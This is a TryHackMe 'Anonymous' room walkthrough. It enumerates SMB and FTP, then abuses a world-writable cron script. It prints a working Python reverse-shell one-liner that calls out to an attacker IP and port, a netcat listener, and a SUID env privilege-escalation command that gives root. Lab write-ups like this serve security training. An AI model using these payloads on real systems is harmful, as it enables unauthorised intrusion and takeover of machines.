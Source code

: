 ```yaml
---
title: <img width="50" height="50" alt="img" src="https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/de6eece3-9ff2-4439-9c01-c6433e45bc04"> Anonymous | Tryhackme | Walkthrough 
date: 2024-01-06 07:00:02 +730
categories: [Write Up, TryHackMe]
tags: [anonymous,walkthrough,tryhackme,privilege-escalation,hydra,cybersecurity] # TAG names should always be lowercase


---
```



<!-- <h1 style="color: cyan; text-align: center">100 Day's Of Cybersecurity - Day 6</h1> -->

![anonymous-image-3385687945](https://github.com/thelocalh0st/thelocalh0st.github.io/assets/95465072/bec39529-aa33-4e82-a201-a5ebe01a6d76){: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }



## Nmap 

```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -T4 10.10.215.229
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 07:04 EST
Nmap scan report for 10.10.215.229
Host is up (0.24s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.105.144
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 3s, deviation: 1s, median: 2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-14T12:05:13
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-12-14T12:05:14+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.56 seconds
```

## 1️⃣ Lets Start with SMB 👨🏻‍💻

```
smbclient -L //10.10.107.211
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```

Lets Get into **pics** share 

`smbclient -N \\\\10.10.107.211\\pics`

```
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020
```

Download it through `mget`

```
smb: \> prompt
smb: \> mget *
getting file \corgo2.jpg of size 42663 as corgo2.jpg (87.9 KiloBytes/sec) (average 87.9 KiloBytes/sec)
getting file \puppos.jpeg of size 265188 as puppos.jpeg (470.0 KiloBytes/sec) (average 293.3 KiloBytes/sec)
```

After a hard try on those images with `strings` , `steghide` , `stegosolve` `stegseek` ended up with nothing!! 


## 2️⃣ FTP 

```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35464|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||15525|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1548 Jan 25 03:41 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

`Download all the three files with mget`

### to_do.txt
```
cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```

### clean.sh 
```
cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### removed_files.log
```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

## 3️⃣ Get Set GO 🏁 

so this clean.sh is attached to a cronjob basically the clean.sh removes files from /tmp directory and keep the updates in removed_files.log file 

Considering **clean.sh** is running every so often and it has **rwxr-xrwx** permissions we may be able to modify the script on our own system and then upload it to the FTP server replacing the existing file.

## 4️⃣ Getting Reverse shell 


Payload
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.40.128",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

Listner 
```
nc -lnvp 1234
```

```
namelessone@anonymous:~$ ls
pics  user.txt
```

## 5️⃣ Privilege Escalation

`Gtfobins`

```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
```

![](https://media.giphy.com/media/DAtJCG1t3im1G/giphy.gif)
